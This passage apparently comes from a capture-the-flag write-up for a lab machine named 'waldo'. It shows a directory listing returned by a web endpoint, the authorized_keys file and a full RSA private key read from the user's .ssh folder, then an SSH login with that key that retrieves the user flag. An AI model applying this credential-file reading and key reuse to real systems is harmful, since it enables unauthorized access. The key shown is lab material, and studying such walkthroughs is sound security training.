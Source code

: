 HTTP Response:
```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 16:11:46 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 53

[".","..",".monitor","authorized_keys","known_hosts"]
```

And from this folder, we can read `authorized_keys`:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM\/VNgdz7ijwPfraXk3B\/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6\/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp\/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz\/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldo
```

And `.monitor`:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

Using this private key we can SSH on the host with the user `nobody` and get the user flag:
```bash
❯❯❯ ssh 10.10.10.87                                                                                          ⏎
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ cat user.txt 
32768bcd7513275e085fd4e7b63e9d24
```
